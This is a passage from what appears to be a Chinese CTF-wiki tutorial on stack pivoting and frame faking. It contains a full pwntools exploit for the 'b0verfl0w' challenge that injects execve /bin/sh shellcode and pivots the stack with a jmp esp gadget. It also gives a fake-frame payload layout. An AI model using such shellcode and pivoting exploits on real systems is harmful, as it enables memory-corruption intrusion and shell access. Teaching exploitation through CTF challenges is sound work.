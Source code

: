 - size(shellcode+padding)=0x20
- size(fake ebp)=0x4
- size(0x08048504)=0x4

所以我们最后一段需要执行的指令就是

```asm
sub esp,0x28
jmp esp
```

所以最后的 exp 如下

```python
from pwn import *
sh = process('./b0verfl0w')

shellcode_x86 = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode_x86 += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
shellcode_x86 += "\x0b\xcd\x80"

sub_esp_jmp = asm('sub esp, 0x28;jmp esp')
jmp_esp = 0x08048504
payload = shellcode_x86 + (
    0x20 - len(shellcode_x86)) * 'b' + 'bbbb' + p32(jmp_esp) + sub_esp_jmp
sh.sendline(payload)
sh.interactive()
```

#### 例2-转移堆

待。

### 题目

- [EkoPartyCTF 2016 fuckzing-exploit-200](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/stackoverflow/stackprivot/EkoPartyCTF%202016%20fuckzing-exploit-200)

## frame faking

正如这个技巧名字所说的那样，这个技巧就是构造一个虚假的栈帧来控制程序的执行流。

### 原理

概括地讲，我们在之前讲的栈溢出不外乎两种方式

- 控制程序 EIP
- 控制程序 EBP

其最终都是控制程序的执行流。在 frame faking 中，我们所利用的技巧便是同时控制 EBP 与 EIP，这样我们在控制程序执行流的同时，也改变程序栈帧的位置。一般来说其 payload 如下

```
buffer padding|fake ebp|leave ret addr|
```

即我们利用栈溢出将栈上构造为如上格式。这里我们主要讲下后面两个部分
